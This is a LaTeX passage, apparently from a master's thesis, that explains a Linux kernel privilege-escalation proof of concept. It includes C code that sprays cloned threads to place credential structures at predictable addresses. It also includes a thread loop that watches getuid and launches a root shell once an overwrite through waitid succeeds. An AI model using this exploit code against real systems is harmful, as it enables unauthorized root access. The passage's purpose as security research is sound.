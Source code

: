 \documentclass{masterthesis}
\begin{document}
In our case, it is necessary to identify a range of addresses where the structures are saved.
In order to find it, we created a maximum number of processes for the system and then we read the addresses of the structures with the program ~\ref{lst:first_step}.

We can run a program that creates processes a few times and see how addresses are changed, remembering to shut down the VM completely every time.
To create enough processes we can use the clone like the following:
\begin{lstlisting}[caption={Create processes},label={lst:spray}] 
stack=malloc(STACK_SIZE)+STACK_SIZE;
for(x=0;x<MAX_THREADS;x++){
  stackTop = malloc(STACK_SIZE) + STACK_SIZE;
  if (!stackTop){
    perror("[-] Malloc");
    return -1;
  }
  pid = clone(spray_thread, stackTop, CLONE_VM | CLONE_FS|CLONE_FILES|CLONE_SYSVSEM | SIGCHLD, NULL);
  if (pid == -1){
    perror("\n\nCLONE");
    return -1;
  }
  printf("[0] Process created: %d\r", x);
}
\end{lstlisting}

\subsection{Proof of concept}
\label{subsect:poc}

PoC is not very complex: it just create many threads and start overwriting at an arbitrary address. Our threads will only have to ``check'' their UID and do ``something'' in case it changes.

Initially we have to create processes with the program ~\ref{lst:spray} which all execute

 the \texttt{spray\_thread} function.
\begin{lstlisting}
int one_win;

// Sprayed thread
int spray_thread(void *arg){
  int uid;
  int previous_one = getuid();
  // Loop over syscall getUID
  while(1){
    uid = getuid();
    printf("UID: %d\n",uid);
    // If returned UID is different from the previous one, then we have hit a struct cred area
    if (uid != previous_one){
      printf("Previous one %d\n" , previous_one);
      printf("WIN!! with %d", uid);
      // Kill other treads in order to stabilize the system
      one_win = 1;
      // Simply spawn a shell
      system("/bin/sh");
    }
    if(one_win == 1)
      return 1;
  }
  return 0;
}
\end{lstlisting}
This function checks that the UID of the process has not changed. In case it has changed it means that we have overwritten the structure with the system call \texttt{waitid}, then call a shell. In this scenario, this shell should be called with root privileges.
\end{document}

